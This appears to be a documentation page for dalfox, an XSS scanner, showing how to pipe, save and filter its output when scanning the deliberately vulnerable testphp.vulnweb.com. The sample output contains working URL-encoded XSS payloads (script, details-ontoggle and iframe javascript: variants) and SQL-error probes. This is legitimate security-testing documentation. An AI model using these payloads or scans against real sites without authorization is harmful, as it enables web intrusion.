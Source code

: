 ```yaml
---
title: Output Handling
permalink: /docs/output-handling/
---
```


## Use dalfox output to other tools via Pipeline
Command
```
▶ dalfox url http://testphp.vulnweb.com/listproducts.php | grep "\[V\]" | cut -d " " -f2 | xargs -I % open %
```

## Save only PoC code with Stdout
Command
```
▶ dalfox url http://testphp.vulnweb.com/listproducts.php > output
```

Output file
```
▶ cat output
[POC][G][BUILT-IN/dalfox-error-mysql2/GET] http://testphp.vulnweb.com/listproducts.php
[POC][G][BUILT-IN/dalfox-error-mysql/GET] http://testphp.vulnweb.com/listproducts.php
[POC][G][BUILT-IN/dalfox-error-mysql5/GET] http://testphp.vulnweb.com/listproducts.php?cat=dalfox.
[POC][G][BUILT-IN/dalfox-error-mysql1/GET] http://testphp.vulnweb.com/listproducts.php?cat=dalfox.
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?cat=%3CsCriPt+class%3Ddalfox%3Eprompt%2845%29%3C%2Fscript%3E
```

## Save only PoC code with `-o` flag
Command
```
▶ dalfox url http://testphp.vulnweb.com/listproducts.php -o output
```

Output file
```
▶ cat output
[POC][G][BUILT-IN/dalfox-error-mysql2/GET] http://testphp.vulnweb.com/listproducts.php
[POC][G][BUILT-IN/dalfox-error-mysql/GET] http://testphp.vulnweb.com/listproducts.php
[POC][G][BUILT-IN/dalfox-error-mysql5/GET] http://testphp.vulnweb.com/listproducts.php?cat=dalfox.
[POC][G][BUILT-IN/dalfox-error-mysql1/GET] http://testphp.vulnweb.com/listproducts.php?cat=dalfox.
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?cat=%3CsCriPt+class%3Ddalfox%3Eprompt%2845%29%3C%2Fscript%3E
```

## Save all log (with `--output-all` flag)

Command
```
▶ dalfox url http://testphp.vulnweb.com/listproducts.php -o alllog.txt --output-all
```

Output file
```
▶ cat alllog.txt
[*] Using single target mode
[*] Target URL: http://testphp.vulnweb.com/listproducts.php
[*] Vaild target [ code:200 / size:4819 ]
[*] Using dictionary mining option [list=GF-Patterns] 📚⛏
[*] Using DOM mining option 📦⛏
[*] Start static analysis.. 🔍
[*] Start parameter analysis.. 🔍
[*] Start BAV(Basic Another Vulnerability) analysis / [sqli, ssti, OpenRedirect]  🔍
...snip...
```

## Save only special PoC Code
Supported
* g(`grep`)
* r(`reflected`)
* v(`verified`)

Case
* g: `[POC][G][BUILT-IN/dalfox-error-mysql1/GET] http://testphp.vulnweb.com/listproducts.php?cat=dalfox%2C`
* r: `[POC][R][GET] http://testphp.vulnweb.com/listproducts.php?cat=%3CdETAILS%250aopen%250aonToGgle%250a%3D%250aa%3Dprompt%2Ca%28%29%3E`
* v: `[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?cat=%3CiFrAme%2Fsrc%3DjaVascRipt%3Aalert%281%29+class%3Ddalfox%3E%3C%2FiFramE%3E`

Command (only grep and verified poc)
```
▶ dalfox url http://testphp.vulnweb.com/listproducts.php --only-poc=g,v
```
